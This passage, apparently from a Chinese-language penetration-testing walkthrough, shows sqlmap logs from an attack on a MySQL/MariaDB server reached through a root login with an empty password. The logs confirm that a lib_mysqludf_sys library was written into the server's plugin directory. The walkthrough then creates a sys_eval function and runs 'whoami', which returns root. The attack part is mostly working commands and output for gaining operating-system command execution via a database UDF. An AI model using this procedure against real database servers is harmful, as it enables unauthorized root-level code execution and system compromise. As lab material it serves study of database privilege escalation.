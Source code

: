    ```
   
   [13:28:36] [INFO] connection to MySQL server '172.20.10.9:3306' established
   [13:28:36] [INFO] testing MySQL
   [13:28:36] [INFO] resumed: [['1']]...
   [13:28:36] [INFO] confirming MySQL
   [13:28:36] [INFO] resumed: [['1']]...
   [13:28:36] [INFO] the back-end DBMS is MySQL
   back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
   [13:28:36] [INFO] fingerprinting the back-end DBMS operating system
   [13:28:36] [INFO] resumed: [['0']]...
   [13:28:36] [INFO] the back-end DBMS operating system is Linux
   do you want confirmation that the local file '/Users/simon/Downloads/lib_mysqludf_sys_64.so' has been successfully written on the back-end DBMS file system ('/usr/lib/x86_64-linux-gnu/mariadb18/plugin/lib_mysqludf_sys_64.so')? [Y/n]
   
   [13:28:42] [INFO] the local file '/Users/simon/Downloads/lib_mysqludf_sys_64.so' and the remote file '/usr/lib/x86_64-linux-gnu/mariadb18/plugin/lib_mysqludf_sys_64.so' have the same size (8040 B)
   [13:28:42] [INFO] connection to MySQL server '172.20.10.9:3306' closed
   
   [*] ending @ 13:28:42 /2020-02-10/
   ```

   

3. 创建&执行函数

   ```
   python3 sqlmap.py -d "mysql://root:@172.20.10.9:3306/mysql" --sql-shell
           ___
          __H__
    ___ ___[,]_____ ___ ___  {1.4.2.24#dev}
   |_ -| . [)]     | .'| . |
   |___|_  [)]_|_|_|__,|  _|
         |_|V...       |_|   http://sqlmap.org
   
   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
   
   [*] starting @ 13:32:23 /2020-02-10/
   
   [13:32:23] [INFO] connection to MySQL server '172.20.10.9:3306' established
   [13:32:23] [INFO] testing MySQL
   [13:32:23] [INFO] resumed: [['1']]...
   [13:32:23] [INFO] confirming MySQL
   [13:32:23] [INFO] resumed: [['1']]...
   [13:32:23] [INFO] the back-end DBMS is MySQL
   back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
   [13:32:23] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
   sql-shell> create function sys_eval returns string soname 'lib_mysqludf_sys_64.so'
   [13:34:56] [INFO] executing SQL data definition statement: 'create function sys_eval returns string soname 'lib_mysqludf_sys_64.so''
   create function sys_eval returns string soname 'lib_mysqludf_sys_64.so': 'NULL'
   sql-shell> select sys_eval('whoami');
   [13:35:59] [INFO] fetching SQL SELECT statement query output: 'select sys_eval('whoami')'
   select sys_eval('whoami') [1]:
   [*] root
   
   sql-shell>
   ```
